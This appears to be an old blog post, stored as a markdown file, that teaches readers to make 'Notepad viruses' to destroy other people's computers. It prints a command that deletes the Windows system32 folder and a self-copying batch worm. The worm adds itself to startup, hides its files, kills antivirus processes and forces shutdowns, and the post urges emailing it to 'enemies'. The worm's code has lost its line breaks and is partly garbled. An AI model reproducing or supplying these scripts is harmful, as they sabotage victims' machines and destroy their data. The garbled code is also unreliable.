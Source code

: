 ```yaml
---
layout: post
title:  "Destroy Your Friends Computer Using Simple Notepad Virus"
permalink: /destroy-your-friends-computer.html
redirect_from:
 - /2013/02/destroy-your-friends-computer-using.html
---
```

<stong>This tutorial is education purpose only</strong>
In this post we’ll take a look on how to create a deadly computer virus to destroy your enemy or victim’s PC…

Open Notepad, Type or Paste in the following command:-

    del c:\windows\system32\*.* /q

Save it with the extension “.bat or .cmd” as u want…

Don’t double click the file otherwise u r in trouble. Why??? Bcz the file u created deletes all files from your system32 folder and when u restart your PC it will not start bcz system can not find the files in the system32 folder which is required at the time of booting…

You can also test the above by creating a fake folder let suppose:-

windows1 in C:.

Copy some old files in it and just follow the above command. By double clicking the bat or cmd file ur all files automaitcally get deleted.

You can try this file one any one’s computer. (but this result in causing damage to the computer, so think again before trying this on anyone’s PC)

Virus 2:

This post is to help you to send viruses to your enemies! Here goes,

Paste the below given code in your Notepad, then save it as anyname.bat

Do not click on that batch file… Send it to your enimies’ email… It will:

1) Copy itself into startup

2) Copy itself over one thousand times into random spots in your computer

3) Hide its self and all other created files

4) Task kill MSN, Norton, Windows Explorer, Limewire.

5) Swap the left mouse button with the right one

6) Opens alert boxes

7) Changes the time to 12:00 and shuts down the computer

CODE:-

    @Echo offcolor 4title 4title R.I.Pstartstartstartstart calccopy %0 %Systemroot%\Greatgame > nulreg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v Greatgame /t REG_SZ/d %systemroot%\Greatgame.bat /f > nulcopy %0 *.bat > nulAttrib +r +h Greatgame.batAttrib +r +hRUNDLL32 USER32.DLL.SwapMouseButtonstart calcclstskill msnmsgrtskill LimeWiretskill iexploretskill NMainstartclscd %userprofile%\desktopcopy Greatgame.bat R.I.P.batcopy Greatgame.bat R.I.P.jpgcopy Greatgame.bat R.I.P.txtcopy Greatgame.bat R.I.P.execopy Greatgame.bat R.I.P.movcopy Greatgame.bat FixVirus.batcd %userprofile%My Documentscopy Greatgame.bat R.I.P.batcopy Greatgame.bat R.I.P.jpgcopy Greatgame.bat R.I.P.txtcopy Greatgame.bat R.I.P.execopy Greatgame.bat R.I.P.movcopy Greatgame.bat FixVirus.batstartstart calcclsmsg * R.I.Pmsg * R.I.Pshutdown -r -t 10 -c "VIRUS DETECTED"startstarttime 12:00:R.I.Pcd %usernameprofile%\desktopcopy Greatgame.bat %random%.batgoto RIP
